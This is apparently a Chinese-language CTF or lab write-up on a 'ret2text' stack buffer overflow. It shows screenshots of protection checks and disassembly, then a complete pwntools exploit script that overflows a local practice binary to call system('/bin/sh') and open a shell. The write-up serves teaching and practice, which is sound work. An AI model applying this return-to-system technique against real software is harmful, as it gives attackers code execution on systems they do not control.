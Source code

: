 # ret2text

检查程序保护

![image-20240426135237331](图片/image-20240426135237331.png)

查看反汇编

![image-20240426135317701](图片/image-20240426135317701.png)

![image-20240426135341338](图片/image-20240426135341338.png)

ida观察到有system函数，利用ROPgadget也可以查到/bin/sh字符串

构造exp

```python
from pwn import*
import time

sh = process('./ret2text')

#gdb.attach(sh)
#sleep(15)

system_plt = 0x080483B0
binsh = 0x08048660

payload = flat([b'a'*20,system_plt,0xcafeefac,binsh])

sh.sendline(payload)
sh.interactive()
```


